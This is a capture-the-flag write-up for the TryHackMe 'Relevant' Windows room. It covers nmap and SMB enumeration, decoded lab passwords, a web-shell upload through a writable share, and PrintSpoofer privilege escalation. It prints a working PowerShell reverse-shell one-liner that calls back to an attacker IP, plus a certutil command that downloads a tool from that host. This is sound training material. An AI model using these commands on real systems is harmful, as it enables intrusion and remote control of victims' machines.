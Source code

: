 # Revelant

![image](https://user-images.githubusercontent.com/5285547/129174199-a0b07f6d-f4bf-4392-9ac2-cbde55554e84.png)

Room link: https://tryhackme.com/room/relevant

## Enum 

### Nmap 

```
nmap -Pn -v 10.10.127.215

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

nmap -Pn -v -p80,135,139,445,3389,49663,49667,49669 -sCV 10.10.127.215

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-12T09:53:48+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-11T09:33:28
| Not valid after:  2022-02-10T09:33:28
| MD5:   f94f cb19 c957 e463 6a5a dc04 f356 0d18
|_SHA-1: 61a7 eb4a b3e7 72cf 6619 234f 2cd8 b2fd a709 7148
|_ssl-date: 2021-08-12T09:54:22+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-12T02:53:43-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T09:53:43
|_  start_date: 2021-08-12T09:34:06
```

Nmap results

We can see from the results a the domain name is "Relevant", their are web portals on port 80,49663 (Microsoft-IIS/10.0 servers).  
This shows SMB is open, let's look into the SMB first. 

### SMB

```
$ smbclient -L 10.10.127.215                
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

Connecting we get a file called passwords.txt

![image](https://user-images.githubusercontent.com/5285547/129176481-a8ae0710-f356-49c2-b0e2-18645e6b6d49.png)

passwords.txt

```
$ cat passwords.txt     
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```

Decoded

```
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$
```

Trying psexec shows we have working creds for bob but not bill

![image](https://user-images.githubusercontent.com/5285547/129179521-7337874d-d25d-4905-8eb6-c30bb1d8061a.png)

![image](https://user-images.githubusercontent.com/5285547/129179581-59ddec12-1498-4cf0-9b59-53b232b8d73d.png)


At this point I got a bit stuck so decided to enum some more, I started on port 80 but didnt find anything.  
Then moved to port 49663
 
```
ffuf -u http://10.10.204.235:49663/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -ic 

nt4wrksv                [Status: 301, Size: 159, Words: 9, Lines: 2]

#Remembering the file on the SMB share, I checked for it. 
http://10.10.204.235:49663/ntw4wrksv/passwords.txt
```

We have READ/WRITE access to the smb share so I tested a file upload which worked. 

![image](https://user-images.githubusercontent.com/5285547/129181840-bdaac284-f23e-42d8-abd6-5e383cf76e4e.png)

![image](https://user-images.githubusercontent.com/5285547/129181810-872aec0e-3db2-4211-ae3d-4a430c14dfe1.png)

Checking a few directorys we can find the webupload folder. 

![image](https://user-images.githubusercontent.com/5285547/129193912-7667cb4c-92d3-4936-894d-a50f19c81eee.png)

I also uploaded a rev.exe (go lang reverse shell to test and play with) 

![image](https://user-images.githubusercontent.com/5285547/129194080-b953b03e-ebfd-4f82-8120-c7a4ef0ddfbf.png)


Testing a meterpreter reverse shell (.exe) failed. So I tested a few more payloads until .aspx worked.

cmdasp.aspx shell located on kali /usr/share/webshells/aspx/

![image](https://user-images.githubusercontent.com/5285547/129187032-0f138d8c-da37-4928-8cbc-17ef57ad4022.png)

Using a powershell payload I get a reverse shell or use the golang shell i found online.

```
# http://10.10.204.235:49663/nt4wrksv/cmdasp.aspx
start c:\inetpub\wwwroot\nt4wrksv\rev.exe
```

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.8.153.120",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![image](https://user-images.githubusercontent.com/5285547/129194610-912d5e6e-8401-486d-b752-704fc473f3bb.png)

The asp shell was much more stable so I ended up using that. 

Navigating to Bob's Desktop we can find the user.txt flag. 

![image](https://user-images.githubusercontent.com/5285547/129199055-38f6c5ae-cb52-4cfc-a3b2-0796d1dbccbf.png)

---

## Root

Checking the system, I copied over winpeas.bat

```
certutil.exe -urlcache -split -f http://10.8.153.120:7777/winPEAS.bat win.bat

```

![image](https://user-images.githubusercontent.com/5285547/129198975-1c8d84d8-b2c5-4614-be16-33174cc062b6.png)

We see the SeImpersonate privileges are set, usually we can use a potatoe attack but the DCOM is disabled preventing that. 

There is a newer attack that may work tho: https://github.com/itm4n/PrintSpoofer


Using this command and the new file we can esculate to full admin on the box

```
PrintSpoofer64.exe -i -c cmd
```

![image](https://user-images.githubusercontent.com/5285547/129207111-2c5979b6-b9ff-4355-a060-a08c84d32385.png)


Now we can get the root flag. 

![image](https://user-images.githubusercontent.com/5285547/129207217-a3369c05-36dc-4771-924d-c02beb5ee772.png)



